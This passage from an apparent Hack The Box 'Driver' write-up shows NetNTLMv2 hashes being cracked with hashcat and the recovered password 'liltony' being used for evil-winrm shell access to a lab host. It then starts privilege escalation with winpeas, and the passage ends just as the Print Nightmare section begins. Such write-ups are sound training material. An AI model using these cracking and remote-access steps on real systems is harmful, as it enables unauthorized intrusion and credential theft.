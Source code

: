 ```
```

### Cracking password hash using hashcat
Let us now save the 2 password hashes to a text file and use hashcat to crack the hashes. Using hashid, we know that the 2 hashes belong to NetNTLMv2 hash which corresponds to a hashid of 5600

```
┌──(kali㉿kali)-[~/Desktop/driver]
└─$ hashcat -m 5600 /home/kali/Desktop/driver/hash.txt /home/kali/Desktop/pentest/wordlist/rockyou.txt
hashcat (v6.1.1) starting...
TONY::DRIVER:bb424bbcb4593421:11cd2c340b0572a5a9bc3f0ead0a2a79:0101000000000000bb566f4ff961d8010926ea0a9c3a602400000000020000000000000000000000:liltony
TONY::DRIVER:dc0cf3c34d14b9f3:6b796eb56f1c6971947848bef7a25b8d:01010000000000006394d250f961d8010eb88800f3b07e9200000000020000000000000000000000:liltony
```

We can then use evil-winrm to connect authenticate using the credentials that we have obtained earlier.

```
┌──(kali㉿kali)-[~/Desktop/driver]
└─$ evil-winrm -i 10.10.11.106 -u TONY -p 'liltony'     

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Documents> 
```

### Obtaining user flag
```
*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
<Redacted user flag>
*Evil-WinRM* PS C:\Users\tony\Desktop> 
```
### Privilge Escalation using Print Nightmare
Using winpeas, we realize that we can access the powershell history file

```
PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.0.10240.17146
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 134B
```
